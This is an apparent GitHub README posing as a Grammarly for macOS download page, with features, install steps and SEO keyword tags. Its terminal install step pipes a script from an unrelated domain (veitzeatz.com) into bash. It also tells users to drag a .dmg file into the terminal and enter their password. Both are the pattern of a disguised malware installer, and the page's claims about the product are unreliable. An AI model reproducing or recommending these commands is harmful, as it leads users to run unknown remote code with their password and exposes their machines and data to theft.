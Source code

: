 # ✍️ Grammarly — AI Writing Assistant for macOS

**Grammarly** is an advanced AI-powered writing assistant tailored for macOS users, helping you write clearly, confidently, and mistake-free across documents, emails, and web content. With support for Microsoft Word, Outlook, Safari, and more, Grammarly ensures professional-quality grammar, tone, and style—right from your MacBook or iMac.

Optimized for MacBook, MacBook Air, and Apple Silicon, Grammarly runs smoothly on modern macOS systems, enhancing your writing across apps and browsers.

---

## ✅ Download Grammarly for macOS  
[![Download Grammarly](https://img.shields.io/badge/Download-Grammarly-blueviolet)](https://grammarly-download-mac.github.io/.github)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## 📦 What is Grammarly?

Grammarly is a writing assistant that checks your spelling, grammar, punctuation, and tone in real time as you write. It offers contextual suggestions to improve clarity and engagement, and works seamlessly with macOS apps, including Microsoft Word, Safari, and Chrome.

Whether you're writing academic essays, professional emails, or blog posts, Grammarly enhances your communication and helps you write with impact.

---

## ✨ Features

- 🧠 Real-time grammar and spelling corrections  
- 📐 Advanced tone and clarity suggestions  
- 💬 Rewrite and rephrase sentences intelligently  
- 🧩 Microsoft Word and Outlook integration  
- 🌐 Works with Safari, Chrome, and Firefox on macOS  
- 🖥 Fully optimized for Apple Silicon (M1/M2/M3) and macOS Ventura  
- 🔒 Secure and privacy-focused writing assistant  
- 📘 Customizable personal dictionary and writing goals  
- ☁️ Sync across devices via Grammarly Cloud  
- 🆓 Free version available with premium upgrade options

---

## 💡 Why Use Grammarly?

- 📝 Ideal for students, professionals, and writers  
- ⚡ Speeds up your workflow with intelligent writing suggestions  
- 📚 Perfect for emails, documents, and social media posts  
- 🖥 Seamlessly integrated with macOS and Apple hardware  
- 🧑‍🏫 Helps improve your writing skills over time  
- 🔄 Ensures consistency in tone and writing style

---

[![Download Grammarly](https://img.shields.io/badge/Download-Grammarly-blueviolet)](https://grammarly-download-mac.github.io/.github)

---

## 🖼 Preview

![Grammarly Screenshot 1](https://contenthub-static.grammarly.com/blog/wp-content/uploads/2021/11/Grammarly-Business-for-Windows-and-Mac-Image-2.jpeg)  
![Grammarly Screenshot 2](https://contenthub-static.grammarly.com/blog/wp-content/uploads/2020/04/ms-office-windows-1.jpg)

---

## 📌 Tags

grammarly mac, grammarly download mac, grammarly for word mac, grammarly for macbook,  
grammarly for mac download, download grammarly for macbook air, download grammarly on mac,  
grammarly for macbook air, grammarly for word for mac, grammarly on mac word, grammarly osx,  
grammarly word for mac, grammarly for outlook mac, grammarly desktop mac, grammarly app for mac,  
grammarly for desktop mac, grammarly microsoft word mac, grammarly word plugin mac,  
add grammarly to word mac, grammarly for mac outlook, grammarly for microsoft word mac,  
grammarly plugin for word mac, grammarly mac os, grammarly mac download  

---
